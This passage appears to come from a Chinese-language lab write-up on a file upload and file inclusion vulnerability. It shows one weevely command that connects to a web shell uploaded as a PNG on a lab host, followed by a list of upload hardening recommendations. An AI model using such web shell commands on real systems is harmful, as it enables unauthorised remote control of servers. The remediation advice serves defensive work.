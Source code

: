 4.尝试连接木马

```
 weevely http://192.168.2.128/include.php?file=upload/8420190915164701.png 123456 dir
```

![b53218616487a57a4cbd71f8d0677f3e.png](../../images/e03ee5a1cff545b58c443b46d5ea3e6d.png)









## 2.漏洞修复建议

1、对上传文件类型进行验证，除在前端验证外在后端依然要做验证，后端可以进行扩展名检测，重命名文件，MIME类型检测以及限制上传文件的大小等限制来防御，或是将上传的文件其他文件存储服务器中。

2、严格限制和校验上传的文件，禁止上传恶意代码的文件。同时限制相关上传文件目录的执行权限，防止木马执行。

3、对上传文件格式进行严格校验，防止上传恶意脚本文件。

4、严格限制上传的文件路径。

5、文件扩展名服务端白名单校验。

6、文件内容服务端校验。

7、上传文件重命名。

8、隐藏上传文件路径。

9、将上传文件存储至云端或者文件服务器
